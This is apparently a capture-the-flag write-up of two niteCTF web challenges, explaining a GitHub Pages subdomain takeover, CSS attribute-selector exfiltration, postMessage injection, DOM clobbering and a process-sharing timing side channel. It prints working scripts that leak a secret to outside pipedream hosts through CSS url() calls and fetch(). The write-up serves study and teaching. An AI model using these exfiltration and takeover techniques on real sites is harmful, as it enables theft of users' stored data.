 ```yaml
---
layout: post
current: post
cover: assets/nite/nisala/cover.webp
navigation: True
title: "un(documented)-js-api"
date: 2022-12-27 10:00:00
tags: [niteCTF, web]
class: post-template
subclass: 'post'
author: nisala
---
```


DOM clobbering, domain takeovers, shared process slowdowns, and CSS exfiltration, oh my!

These challenges were really something. While they were often broken (undocumented js-api was literally unsolvable for the first 24 hours that it was up), the core of the challenges were honestly pretty brilliant. Let's talk through them.

### First stop: undocumented js-api

In this challenge, we're greeted with a Notes app. We can input HTML into the box, which can then be rendered. All good so far. To solve the challenge, we have to submit a URL to an admin bot, which visits it with the flag in local storage (previous note is always stored there, because there's a function to restore the last note). 

At first glance, it looks like the notes app has an iframe API -- but you can only activate it if the iframe is embedded in a subdomain of the challenge (hosted at `chall1.jsapi.tech`):

```js
const parseUrl = (url) => {
    return (new URL(url)).host.endsWith(".jsapi.tech");
};
```

In a lot of challenges, the bug would be here. But this uses the `URL` constructor. We're not breaking this. So how do we do this? Well, I noticed that when you visit any subdomain of `jsapi.tech`, you get a GitHub Pages 404 page. So every subdomain is hooked into GitHub Pages. Now, this wouldn't normally be exploitable -- but GitHub doesn't tie registered domains to user accounts. Instead, they expect you to register DNS to a domain and then immediately publish to it. If you don't, *anyone can publish to it later on*. And that's exactly the exploit here. So I just made a repo and published to `squ1rrel.jsapi.tech`, and I'm in!

Now, we have to use the iframe API to get the flag. Unfortunately, we can't just put a script in -- not only because of a Content Security Policy, but because the Notes app is using `DOMPurify`. Lucky for us, though, they're using it insecurely:

```js
DOMPurify.sanitize(str, {ADD_TAGS: ['link','style']}); // allow CSS
```

We can get CSS in! Now, CSS seems innocuous on its own -- but the previous note's data (i.e. the flag) is stored in an attribute called `data-last` on the textarea, which we can select for in CSS! Check this out:

```css
textarea[data-last^='nite{a'] {
    background: url("https://LINK.x.pipedream.net/exfiltrate?data=nite.a");
}
```

If the `data-last` attribute starts with `nite{a`, then the URL is called, sending us the data `nite.a`. Now, we know that the flag starts with `a`, and we can add on another letter to test it out. By doing this over and over, we can get the entire flag.

Now, obviously, I don't want to write all this CSS out myself, so I wrote a little script to generate CSS files for me:

```js
const characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_}';
const prefix = "n";
const setPrefix = prefix.replace("{", ".");
let css = "";
for (let c1 of characters) {
    css += `textarea[data-last^='${prefix}${c1}'] {
        background: url("https://LINK.x.pipedream.net/exfiltrate?data=${setPrefix}${c1.replace("}", ".")}");
    }
    
    `;
}

const fs = require("fs");
fs.writeFileSync("test.css", css);
```

I modified this script to get me up to three characters at a time (just more `for` loops), but for simplicity, I'm just showing one at a time here. In order to get the CSS on the page, I used the iframe API like this:

```js
const ORIGIN = "https://chall1.jsapi.tech";
window.addEventListener("message", function(event) {
    if (event.origin !== ORIGIN) return;
    if (event.data === "NOTE_APP_API_LOADED") {
        document.querySelector("iframe").contentWindow.postMessage(`NOTE_APP_SET_REQUEST any text here<link rel="stylesheet" href="https://squ1rrel.jsapi.tech/test.css?t=${Math.random()}"></link>`, ORIGIN);
    }

    fetch("https://enu819t2ymo3d.x.pipedream.net/?data=" + encodeURIComponent(event.data));
});
```

When the API loads, this sets a note with the CSS link, which does the exfiltration as described above. I add `Math.random()` on the end to stop CSS caching (as we found out later, this was required because they weren't using an Incognito browser context). You'll notice that the note starts with "any text here". That's because, for some reason, [DOMPurify removes allowed tags if they're the first tag](https://github.com/cure53/DOMPurify/issues/683), so you just have to put something before it.

As I got more characters, I would add them to the prefix, regenerate the CSS, redeploy it to GitHub Pages, and submit to the admin bot again. And eventually, I had the flag!

### Another one: js-api

js-api claimed to be better documented. Honestly, the documentation was incredibly pointless -- it was clear what was and wasn't vulnerable, and that was kinda that. But let's break it down anyways. This is, once again, a Notes app with an iframe API. This API let you preview a note (to a div), set a note (to an internal variable), or search a note (search that internal variable). Here's the search function:

```js
search(text) {
    if ( typeof text !== 'string' ) return;
    if ( !window.enable_experimental_features ) return;

    // some massive security warning I've removed
    // because honestly it made the challenge more confusing
    text = DOMPurify.sanitize( text );
    const doesMatch = this.noteData.includes(text);
    if ( doesMatch ) {
        var lastIndex = 0, i = 0;
        for (...) {
            if ( lastIndex > i ) break;

            this.highlightNode.innerHTML 
                += escapeHtml(this.noteData.substring(lastIndex, i));
            this.highlightNode.innerHTML 
                += `<mark>${escapeHtml( text ) }</mark>`
            
            lastIndex = i + text.length;
        }
        document.querySelector('#note-text-highlight-wrapper').classList.remove('hidden');
    }
}
```

Okay, so `search` has a security warning in it, so it's obviously vulnerable. In order to use it, though, we have to set `window.enable_experimental_features`. We can do this with DOM clobbering. Simply use the `preview` function like so:

```js
iframeWindow.postMessage({
    op: "preview",
    payload: `1<p id="enable_experimental_features">clobber</p>`
}, ORIGIN);
```

And we're good to go -- the variable is set! Now, let's look at what the search function is actually doing. If we search for a piece of text, *and it's in the note*, it'll start populating a new "search results" div. It'll put the contents of the note in the div, and it'll highlight what the search matched in the note. Now, by itself, this is pretty worthless -- but there are two key things the admin bot is doing that actually makes this the key to the solution.

```js
const flag2 = 'nite{549387f2-00fc-4f70-a769-c8887f8dca65}'.repeat(1000);
```

Okay, the flag is repeated 1000 times, and it's super long. You'll notice that the search function uses `innerHTML` and appends to it over and over -- so with this much text, it'll definitely cause significant browser lag. Now, normally, the iframe would run in a different process from the page it's contained in, so the main page wouldn't be able to notice this. But the admin bot has done one more key thing:

```js
puppeter_args.args = [
    '--disable-site-isolation-trials',
    '--user-data-dir=/tmp/chrome-userdata',
    '--breakpad-dump-location=/tmp/chrome-crashes'
];
```

Disable site isolation trials? Whatever could that mean?

> After you disable the isolation policy, Chrome uses its pre-site isolation process model to render websites. Different sites might share processes with each other. And cross-site frames might be rendered in the same process as their parent page.

Cross-site frames in the same process as their parent page, you say? Well, well, well! Looks like we'll be able to detect it after all! So here's what we do:

```js
const characters = "abcdefghijklmnopqrstuvwxyz0123456789_-}";
let prefix = `nite{${location.hash.replace("#", "")}`;
while (!prefix.includes("}")) {
    for (let character of characters) {
        let now = Date.now();
        iframeWindow.postMessage({
            op: "search",
            payload: `${prefix}${character}`
        }, ORIGIN);                
        await new Promise(resolve => setTimeout(resolve, 10));
        if (Date.now() - now > 100) {
            console.log(prefix + character);
            prefix += character;
            fetch("https://LINK.x.pipedream.net/exfiltrate?data=" 
                + prefix.replace("{", ".").replace("}", "."));
            break;
        }
    }
}
```

This dynamically tries to search for the flag, using the flag prefix we already know. After dispatching a search, it sets a 10 millisecond timeout, which tells the Chrome event scheduler to move onto something else (thus ensuring that the search runs and it doesn't just move on immediately). If the search takes more than 100 milliseconds (i.e. 10x the time of the timeout!), it's gotten hung up, which means it was probably displaying search results! Thus, it sends that out to us, and tries to find the next character.

There's a 60 second timeout on the admin bot, so we have to run this a couple times (which is why I made it so you could tack the known prefix onto the URL). But after a few tries, we got the flag!
